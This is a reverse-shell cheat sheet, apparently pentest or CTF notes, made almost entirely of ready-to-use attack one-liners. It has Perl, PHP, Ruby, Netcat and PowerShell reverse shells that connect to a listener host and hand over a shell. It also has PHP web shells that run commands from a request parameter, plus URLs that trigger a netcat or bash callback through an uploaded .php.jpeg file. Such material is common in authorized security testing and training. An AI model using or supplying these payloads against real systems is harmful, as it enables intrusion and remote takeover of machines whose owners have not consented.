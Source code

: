 ```
```

### Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PHP
pentestmonkey reverse shell:  
https://github.com/pentestmonkey/php-reverse-shell.git

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.8/4444 0>&1'"); ?>
```
```
# Web Shell
<?php echo system($_REQUEST ["cmd"]); ?>
<?php echo(system($_GET["cmd"])); ?>
```
```
# 10.10.14.4 443
## nc
http://10.10.10.146/uploads/10_10_14_4.php.jpeg?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.4+443+>/tmp/f

## bash
http://10.10.10.146/uploads/10_10_14_4.php.jpeg?cmd=bash+-i+>%26+/dev/tcp/10.10.14.4/443+0>%261
```
### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### PowerShell
```
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.
11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T
ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII
).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c
lient.Close()"
```
